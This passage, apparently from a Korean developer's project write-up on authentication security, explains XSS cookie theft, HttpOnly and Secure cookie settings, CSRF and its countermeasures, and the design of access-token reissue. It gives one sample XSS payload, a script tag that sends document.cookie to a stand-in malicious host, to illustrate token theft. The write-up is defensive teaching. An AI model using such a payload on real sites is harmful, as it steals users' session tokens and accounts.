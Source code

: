 위 기법으로 아래와 같은 코드를 넣으면 어떻게 될까?

```js
<script>document.location='http://악성-사이트.com/cookie?'+document.cookie</script>
```

위의 스크립트를 실행하게되면 사용자가 가지고 있는 쿠기나 로컬 스토리지에 접근이 가능합니다.
해당 정보들에서 액세스 토큰을 탈취하여 서버로 전송하게 되면 사용자의 정보가 탈취당할 수 있습니다.

이를 해결하는 방안으로는 `Set-Cookie`의 `HttpOnly`옵션을 거는 방법이 있습니다.

```java
Cookie cookie = new Cookie("access", 토큰);  
cookie.setHttpOnly(true);  
cookie.setSecure(true);  
cookie.setPath("/");  
cookie.setMaxAge(만료시간);  
response.addCookie(cookie);
```

`HTTPOnly` 속성을 추가하여 쿠키를 설정하면, 브라우저는 이 쿠키를 클라이언트 측 스크립트에서 접근할 수 없도록 합니다.  
해당 설정은 Access 뿐만 아니라 Refresh에도 필수적인 요소입니다.  

또한 위의 `Secure`옵션을 추가하여 HTTPS환경에서만 사용 할 수 있도록 설정도 해주어야합니다.

##### CSRF(cross site request forgery attack)
CSRF공격은 토큰을 탈취하는 방식이 아닌 토큰을 가진 유저가 특정행위를 하도록 유도하여 공격하는 방식입니다.

###### CSRF 공격의 동작 원리

1. **사용자가 로그인**: 피해자가 은행 웹사이트나 소셜 미디어 플랫폼 등에서 로그인합니다. 이때, 브라우저는 해당 도메인에 대한 세션 쿠키를 저장합니다.
    
2. **악의적인 사이트 방문**: 공격자는 악의적인 웹페이지나 이메일을 통해 사용자를 유도하여 특정 페이지를 방문하게 합니다.
    
3. **자동 요청 전송**: 피해자가 악의적인 페이지를 방문하면, 해당 페이지에 포함된 악성 스크립트가 피해자가 로그인한 상태로 특정 웹 애플리케이션 서버에 요청을 보냅니다. 이 요청에는 사용자의 인증 쿠키가 자동으로 포함됩니다.
    
4. **서버 요청 처리**: 서버는 요청이 피해자의 세션을 통해 이루어진 것이므로 이를 신뢰하고 요청을 처리합니다. 이로 인해 사용자의 계정에서 비정상적인 동작이 수행될 수 있습니다.

해당 공격을 막기위서는 다음과 같은 추가적인 보안 조치를 고려할 수 있습니다.

1. CSRF 토큰 사용: 각 요청 마다 고유한 토큰을 포함시킵니다.
	- 해당 방법의 겨우 서버에서 고유한 토큰을 발급하여 일치여부를 판단합니다.
	- 해당 토큰을 저장할 세션 또는 별도의 저장소를 필요로합니다.
	- 해당 방법의 경우 Statelessness의 이점을 위해 토큰인증을 도입한 경우 다시 세션인증과 동일한 문제를 직면할 수 있습니다.
2. SameSite 쿠키 속성 : 동일한 url이 아닌 경우 쿠키의 전송을 제한합니다.
3. Origin 헤더 검증 : 서버에서 요청의 출처를 검증합니다.
4. Referer 헤더 검증 : 요청의 이전 페이지 URL을 확인합니다.

 이번의 해당 프로젝트에서는 트래픽을 고려한 설계를 하였기 때문에 SameSite 쿠키 속성을 활용하여 보안을 강화하는 방법을 채택하였습니다.

### Access 재발급

 Access 토큰은 짧은 만료기간을 가지고 있기 때문에 재발글을 해주는 로직이 필요합니다.
이를 위하여 여러방안을 시도해 보고 해당 방안의 단점을 보안하여 최종 로직을 구현하였습니다.

1. 최초 도입한 방안으로 Front에서 요청을 보낼때 Access가 만료되면 재발급을 요청하여 재발급을 받는 방식입니다.
	- 해당 방식의 경우 검사할때에는 유효하였으나 gateway로 넘어가는 순간 만료되었을 겨우 error가 발생합니다.
2. 위의 문제를 해결한 방안으로 gateway로 무조건 보내고 gateway에서 토큰만료 Exception을 주면 그때 재발급을 수행 하는 방식입니다.
	- 해당 방식의 경우 Access가 만료되었을 시 gateway를 한번 갔다 와야하는 트래픽 1번이 늘어나게 된다는 단점이 있습니다.
3. 1번 방안과 2번 방안을 섞어서 도입하는 방식입니다.
	- 해당 방식의 경우 트래픽이 늘어나게되는 경우가 현저하게 줄게되지만 여전히 존재하긴 합니다.
4. 마지막 최종방안으로 1번 방식에서 만료기준을 5초 전으로 잡아서 검사를 진행합니다.
	- 이렇게 진행하면 만료기간이 5초가 남아도 만료로 보기 때문에 gateway에서 만료로 인한 Error가 발생하는 일은 거의 없게 됩니다.
